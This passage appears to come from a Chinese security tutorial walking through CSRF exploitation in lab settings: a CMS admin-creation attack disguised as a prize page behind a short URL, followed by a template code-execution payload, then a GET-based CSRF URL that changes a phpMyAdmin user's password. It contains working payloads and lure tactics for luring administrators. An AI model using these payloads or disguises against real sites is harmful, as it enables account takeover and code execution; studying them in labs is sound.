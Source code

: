 使用Generate CSRF PoC生成HTML代码，并添加个中奖图片，简单伪装成中奖页面。
![图片](https://uploader.shimo.im/f/NtbZuEJA1DkI5Y1u.png!thumbnail)![图片](https://uploader.shimo.im/f/zx3ulSy5jC02TR9q.png!thumbnail)
还可以用短域名继续伪装
![图片](https://uploader.shimo.im/f/e5hhO2GcJyk7dfkI.png!thumbnail)
然后诱导管理员打开并点击，创建成功
![图片](https://uploader.shimo.im/f/7rlDBQ33tbAGZWqF.png!thumbnail)
使用创建的账号密码登录
![图片](https://uploader.shimo.im/f/bIhLG6RcDjw1BkFl.png!thumbnail)
使用代码执行漏洞执行phpinfo
poc：index.php?m=Admin&c=Tpl&a=set&tpl_dir=a'.${phpinfo()}.'
![图片](https://uploader.shimo.im/f/Vka5drISLV4UxpuN.png!thumbnail)
### 1.2.3.3 参考文章
[http://www.yqxiaojunjie.com/index.php/archives/341/](http://www.yqxiaojunjie.com/index.php/archives/341/)
# 1.2.4 CSRF漏洞利用实例之phpMyAdmin
### 1.2.4.1 安装步骤
此漏洞使用VulnSpy在线靶机
靶机地址：[https://www.vulnspy.com/?u=pmasa-2017-9](https://www.vulnspy.com/?u=pmasa-2017-9)
存在漏洞：GET型CSRF
点击开启实验
![图片](https://uploader.shimo.im/f/niPGVv5yRjA5NBWE.png!thumbnail)
可以登录也可以不登录
![图片](https://uploader.shimo.im/f/G1EW1lc2ZysnBwa5.png!thumbnail)
打开靶机地址，默认账号密码：root/toor，靶机只有十分钟的时间
![图片](https://uploader.shimo.im/f/I1mvhB38VocZ6ecp.png!thumbnail)
### 1.2.4.2 利用过程
将当前用户密码更改为hongri，SQL命令
```
SET passsword=PASSWORD('hongri');
```
构造poc
```
http://f1496b741e86dce4b2f79f3e839f977d.vsplate.me:19830/pma/sql.php?db=mysql&table=user&sql_query=SET%20password
%20=%20PASSWORD(%27hongri%27)
```

我们可以使用短域名伪装
![图片](https://uploader.shimo.im/f/DeIPRNyr47UA0sUG.png!thumbnail)
修改成功
![图片](https://uploader.shimo.im/f/4ReaCGjcicEAuiIv.png!thumbnail)
### 1.2.4.3 参考文章
[https://www.vulnspy.com/?u=pmasa-2017-9](https://www.vulnspy.com/?u=pmasa-2017-9)
